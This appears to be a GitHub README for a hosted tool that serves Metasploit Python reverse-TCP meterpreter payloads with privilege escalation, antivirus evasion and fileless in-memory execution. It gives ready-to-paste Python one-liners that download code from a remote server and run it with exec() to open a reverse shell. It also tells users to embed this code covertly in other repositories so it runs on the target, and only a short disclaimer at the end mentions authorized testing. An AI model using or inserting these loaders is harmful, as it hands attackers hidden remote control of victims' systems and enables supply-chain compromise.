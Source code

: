 # easysploit-server
## Overview
Easysploit Server is a tool designed to generate, customize, and manage Metasploit reverse_tcp payloads. It simplifies exploitation with built-in admin privilege escalation, and AV evasion capabilities, supporting fileless execution for fast, undetectable operations.
Easysploit server is now working on https://easysploit.rocknroll17.com.

## Features
- Custom Reverse_TCP Payloads
- Admin Privilege Escalation
- Fileless Execution (Memory-based)
- Anti-Virus Evasion

## Scenario
1. **Generate Exploit Code using easysploit-client**  
Use easysploit-client to generate the exploit code. The generated code requests a payload from easysploit-server and executes it in a fileless manner.
2. **Embed the Exploit Code**  
Insert the generated code into other repositories or Python code to be executed on the target system.
3. **Execute on Target System**  
When the code is executed on the target system, it sends a request to easysploit-server for the payload.
4. **Fileless Execution**  
The easysploit-server delivers the payload and executes it filelessly in memory without leaving traces on the disk.

## Installation
You don't need to run this server.
It is already working on https://easysploit.rocknroll17.com.

## Usage
### Available Endpoints
**GET & POST**
1. **Standard python Reverse TCP Payload**
Endpoint: `/python/meterpreter/reverse_tcp`
2. **Admin Privilege Reverse TCP Payload**
Endpoint: `/python/meterpreter/reverse_tcp/admin`
  
You can try these request in https://easysploit.rocknroll17.com/docs

### GET Param
```
LHOST: Attacker's IP
LPORT: Attacker's listening port
```
  
### POST Body
Both endpoints require the same JSON payload:  
```
{
  "LHOST": "Attacker's IP",
  "LPORT": Attacker's listening port
}
```  

## Example Code
Insert this code where you gonna exploit.
1. **Standard python Reverse TCP Payload**
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```
2. **Admin Privilege Reverse TCP Payload**
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp/admin", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```

## Terms of Use
This tool is provided for **legal pentesting tests** and should only be used in **authorized environments**.  
Any illegal activity performed using this tool is the **sole responsibility of the user**.  
By using this tool, you agree to these terms and accept full legal responsibility for its use.